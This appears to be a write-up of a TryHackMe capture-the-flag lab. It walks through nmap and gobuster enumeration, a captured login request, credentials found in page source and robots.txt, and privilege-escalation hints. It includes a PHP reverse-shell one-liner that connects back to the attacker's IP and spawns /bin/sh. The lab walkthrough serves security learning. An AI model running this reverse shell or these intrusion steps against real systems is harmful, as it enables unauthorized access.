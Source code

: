 # Tryhackme ctf challenge
my machine: 10.9.234.242
target ip: 10.10.40.177

#### procedure

1. Perform nmap scan `nmap -sC -sV 10.10.40.177`
    ![init nmap scan](./images/nmap_initial.png)
    - since we now port 80 is open we can explore the website. There will be a hint within the source code of the the home page. Let's remember the username `R1ckRul3s`

2. Perform gobuster scan to enumarate the website `gobuster dir -w <path to wordlist> -u http://10.10.40.177:80 -x php,txt,py,sh,cgi,bak,css,js`
    ![gobuster scan](./images/gobuster.png)
    - gobuster was able to identify the route /login.php. I captured one of the requests using burpsuite to get the parameters that are submitted during post login, to try and perform a bruteforce on the http post form using hydra. (No success)
    ```
    POST /login.php HTTP/1.1
    Host: 10.10.40.177
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 31
    Origin: http://10.10.40.177
    Connection: close
    Referer: http://10.10.40.177/login.php
    Cookie: PHPSESSID=8hktk8c7ddson4fim2o6gefl74
    Upgrade-Insecure-Requests: 1

    username=a&password=a&sub=Login
    ```
    - eventually we eventually found the password from robots.txt `Wubbalubbadubdub`. Let's try to login using `R1ckRul3s`.

3. Once we logged in we have a command panel where we can run limited commands under the www-data user.

    - perform a reverse shell using this command `php -r '$sock=fsockopen("<your ip>",<your port>);exec("/bin/sh -i <&3 >&3 2>&3");'`
    - once we got the shell from our terminal we can see there's a file that we cannot directly open to get the 1st ingredient. (use grep to open)
    ![1st ingredient](./images/first_ingredient.png)
    - 2nd ingredient will be located somewhere around /home
    - last ingredient would most likely be in /root, but we don't have acces to it. try to run this command `sudo -l` and try to see if you can use grep to get the last ingredient.

